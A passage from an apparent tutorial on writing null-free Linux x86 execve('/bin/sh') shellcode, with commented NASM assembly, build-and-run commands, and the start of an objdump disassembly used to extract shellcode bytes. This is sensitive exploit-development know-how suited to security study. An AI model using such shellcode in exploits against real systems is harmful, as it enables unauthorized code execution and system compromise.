 With that all done here is the final assembly

{{< highlight nasm >}}

global _start
section .text
_start:
  xor  eax, eax	  ; zero out eax
  push eax        ; push NULL onto stack to termins //bin/sh
  push 0x68732f6e ; push //bin/sh in reverse onto the stack
                  ; (extra / is to make data multiple of 4)
  push 0x69622f2f ; see above
  mov  ebx, esp   ; move address of //bin/sh into EBX (execve's 1st parameter)
  push eax        ; this serves two purposes 1, to use for EDX (we will pass no
                  ; environment to the shell and also as part of the array of
                  ; args that we will pass to as the 2nd arg of execve
  mov  edx, esp	  ; see above
  push ebx        ; ESP now points to and array of args [address of //bin/sh, 0x00]
                  ; these will act as the args to //bin/sh
  mov ecx, esp	  ; setup the 3rd argument
  mov al, 11      ; set the EAX register to the execve sys call number
                  ; using al to remove any null bytes
  int 0x80        ; make the call
{{< / highlight >}}

To recap the few tricks we used
1. Used xor to create a NULL without having a null in the code
2. Added the extra / to the /bin/sh string to make pushing the data easier and
   with less instructions
3. Reused data we already had on the stack to create the arguments array for the
   execve call
4. Used the 8 bit version (al) of the EAX register to avoid NULL bytes in the
   generated code

Save the above code to execve.nasm, compile, link and run
```
  $ nasm -f elf32 -o execve.o execve.nasm
  $ ld -o execve execve.o
  $ ./execve
  $
```
If you are running bash you will notice now that your prompt has changed,
congrats your syscall worked!!

# Converting to shellcode
So how do we go about converting this assembled object file into a shellcode
string you see in exploits? There is a little tool called objdump which happens
to have a -d flag and this flag dissasembles object files, lets see
```
  $ objdump -d execve.o

  execve.o:     file format elf32-i386


  Disassembly of section .text:

  00000000 <_start>:
     0:	31 c0                	xor    %eax,%eax
     2:	50                   	push   %eax
     3:	68 6e 2f 73 68       	push   $0x68732f6e
     8:	68 2f 2f 62 69       	push   $0x69622f2f
     d:	89 e3                	mov    %esp,%ebx
     f:	50                   	push   %eax
    10:	89 e2                	mov    %esp,%edx
    12:	53                   	push   %ebx
```